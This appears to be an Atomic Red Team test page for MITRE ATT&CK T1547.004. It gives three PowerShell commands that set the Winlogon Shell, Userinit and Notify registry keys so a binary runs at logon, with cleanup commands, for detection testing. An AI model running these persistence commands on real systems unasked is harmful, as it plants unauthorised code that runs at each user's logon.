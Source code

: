 # T1547.004 - Winlogon Helper DLL
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/004)
<blockquote>Adversaries may abuse features of Winlogon to execute DLLs and/or executables when a user logs in. Winlogon.exe is a Windows component responsible for actions at logon/logoff as well as the secure attention sequence (SAS) triggered by Ctrl-Alt-Delete. Registry entries in <code>HKLM\Software[\\Wow6432Node\\]\Microsoft\Windows NT\CurrentVersion\Winlogon\</code> and <code>HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\</code> are used to manage additional helper programs and functionalities that support Winlogon. (Citation: Cylance Reg Persistence Sept 2013) 

Malicious modifications to these Registry keys may cause Winlogon to load and execute malicious DLLs and/or executables. Specifically, the following subkeys have been known to be possibly vulnerable to abuse: (Citation: Cylance Reg Persistence Sept 2013)

* Winlogon\Notify - points to notification package DLLs that handle Winlogon events
* Winlogon\Userinit - points to userinit.exe, the user initialization program executed when a user logs on
* Winlogon\Shell - points to explorer.exe, the system shell executed when a user logs on

Adversaries may take advantage of these features to repeatedly execute malicious code and establish persistence.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Winlogon Shell Key Persistence - PowerShell](#atomic-test-1---winlogon-shell-key-persistence---powershell)

- [Atomic Test #2 - Winlogon Userinit Key Persistence - PowerShell](#atomic-test-2---winlogon-userinit-key-persistence---powershell)

- [Atomic Test #3 - Winlogon Notify Key Logon Persistence - PowerShell](#atomic-test-3---winlogon-notify-key-logon-persistence---powershell)


<br/>

## Atomic Test #1 - Winlogon Shell Key Persistence - PowerShell
PowerShell code to set Winlogon shell key to execute a binary at logon along with explorer.exe.

Upon successful execution, PowerShell will modify a registry value to execute cmd.exe upon logon/logoff.

**Supported Platforms:** Windows


**auto_generated_guid:** bf9f9d65-ee4d-4c3e-a843-777d04f19c38





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| binary_to_execute | Path of binary to execute | Path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, #{binary_to_execute}" -Force
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" -Name "Shell" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - Winlogon Userinit Key Persistence - PowerShell
PowerShell code to set Winlogon userinit key to execute a binary at logon along with userinit.exe.

Upon successful execution, PowerShell will modify a registry value to execute cmd.exe upon logon/logoff.

**Supported Platforms:** Windows


**auto_generated_guid:** fb32c935-ee2e-454b-8fa3-1c46b42e8dfb





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| binary_to_execute | Path of binary to execute | Path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, #{binary_to_execute}" -Force
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" -Name "Userinit" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - Winlogon Notify Key Logon Persistence - PowerShell
PowerShell code to set Winlogon Notify key to execute a notification package DLL at logon.

Upon successful execution, PowerShell will modify a registry value to execute atomicNotificationPackage.dll upon logon/logoff.

**Supported Platforms:** Windows


**auto_generated_guid:** d40da266-e073-4e5a-bb8b-2b385023e5f9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| binary_to_execute | Path of notification package to execute | Path | C:&#92;Windows&#92;Temp&#92;atomicNotificationPackage.dll|


#### Attack Commands: Run with `powershell`! 


```powershell
New-Item "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify" -Force
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify" "logon" "#{binary_to_execute}" -Force
```

#### Cleanup Commands:
```powershell
Remove-Item "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify" -Force -ErrorAction Ignore
```





<br/>
